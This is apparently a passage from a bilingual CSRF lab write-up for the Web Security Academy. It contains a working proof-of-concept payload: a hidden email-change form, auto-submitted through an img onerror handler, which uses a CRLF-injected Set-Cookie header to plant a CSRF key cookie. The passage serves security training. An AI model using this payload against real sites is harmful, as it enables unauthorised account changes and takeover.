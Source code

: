 > Para que la cookie de sesión funcione correctamente es necesario añadir el parámetro 'SameSite' en None.

- Injection

```html
<form class="login-form" name="change-email-form" action="https://0a4200e9039e21c7806c942200580058.web-security-academy.net/my-account/change-email" method="POST">
    <input required="" type="hidden" name="email" value="csrf@csrf.com">
    <input required="" type="hidden" name="csrf" value="D6ja3Ds9B2ZkBSrOerYFlbZdjoyyZa1k">
</form>

<img src="https://0a4200e9039e21c7806c942200580058.web-security-academy.net/?search=testing123;%0D%0ASet-Cookie: csrfKey=FuRkmE0HpYMoTUagqBpRbDr0A1VY5LbS; SameSite=None" onerror=document.forms[0].submit()>
```

## CSRF con token duplicado en cookie || CSRF where token is duplicated in cookie

![](/img2/Pasted%20image%2020250731235620.png)

> Vemos que el token 'csrf' coincide con la cookie de sesión 'csrf'.

![](/img2/Pasted%20image%2020250731235828.png)

> Aprovechando el mismo vector de antes, podemos cambiar la cookie de sesión mediante el parámetro 'LastSearchTerm'.

